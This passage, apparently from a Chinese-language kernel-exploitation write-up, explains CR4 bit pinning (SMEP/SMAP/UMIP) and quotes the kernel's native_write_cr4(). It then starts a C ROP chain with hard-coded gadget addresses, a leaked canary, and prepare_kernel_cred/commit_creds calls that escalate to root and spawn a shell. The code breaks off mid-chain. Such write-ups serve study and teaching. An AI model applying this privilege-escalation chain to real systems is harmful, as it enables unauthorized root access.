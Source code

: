 而在修改 20 bit of cr4 時，出現了 error msg `pinned CR4 bits changed`，[參考這篇文章](https://patchwork.kernel.org/project/kernel-hardening/patch/20190220180934.GA46255@beast/#22495645)所說，在比較新的 kernel 中，cr4 中有些 bit 在 boot 時就已經 pinned，也就是不會在 runtime 被 common function 如 `native_write_cr4()` 所更改，被 pin 的 bit 有 `SMEP`, `SMAP`, and `UMIP`，以下為 `native_write_cr4()` 的 source code:

```c
static const unsigned long cr4_pinned_mask =
	X86_CR4_SMEP | X86_CR4_SMAP | X86_CR4_UMIP | X86_CR4_FSGSBASE;
...
void native_write_cr4(unsigned long val)
{
	unsigned long bits_changed = 0;

set_register:
	asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

	if (static_branch_likely(&cr_pinning)) {
		if (unlikely((val & cr4_pinned_mask) != cr4_pinned_bits)) {
			bits_changed = (val & cr4_pinned_mask) ^ cr4_pinned_bits;
			val = (val & ~cr4_pinned_mask) | cr4_pinned_bits;
			goto set_register;
		}
		/* Warn after we've corrected the changed bits. */
		WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
			  bits_changed);
	}
}
```

沒辦法 return 回 user code，就只能在 kernel 做 ROP，不過還是需要執行到一些必要的 function:

- `prepare_kernel_cred(0)`
- `commit_creds()`
- `swapgs ; ret`
- `iret` + `RIP | CS | RFLAGS | SP | SS`

```c
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long pop_rdi_ret = 0xffffffff81006370;

unsigned long pop_rdx_ret = 0xffffffff81007616;
unsigned long cmp_rdx_8_jne_pop_rbx_pop_rbp_ret = 0xffffffff81964cc4;
unsigned long mov_rdi_rax_jne_pop_rbx_pop_rbp_ret = 0xffffffff8166fea3;
unsigned long swapgs_pop_rbp_ret = 0xffffffff8100a55f;
unsigned long iretq = 0xffffffff8100c0d9;

unsigned long user_rip = (unsigned long) get_shell;
void overflow()
{
    unsigned long rop[50];
    int off = (0xa0 - 0x20) / sizeof(unsigned long);
    rop[off++] = canary; // 0x20
    rop[off++] = 0; // 0x18
    rop[off++] = 0; // 0x10
    rop[off++] = 0; // 0x08
    rop[off++] = pop_rdi_ret;
    rop[off++] = 0;
    rop[off++] = prepare_kernel_cred;
    rop[off++] = pop_rdx_ret;
    rop[off++] = 8;
    rop[off++] = cmp_rdx_8_jne_pop_rbx_pop_rbp_ret;
    rop[off++] = 0;
    rop[off++] = 0;
    rop[off++] = mov_rdi_rax_jne_pop_rbx_pop_rbp_ret;
    rop[off++] = 0;
```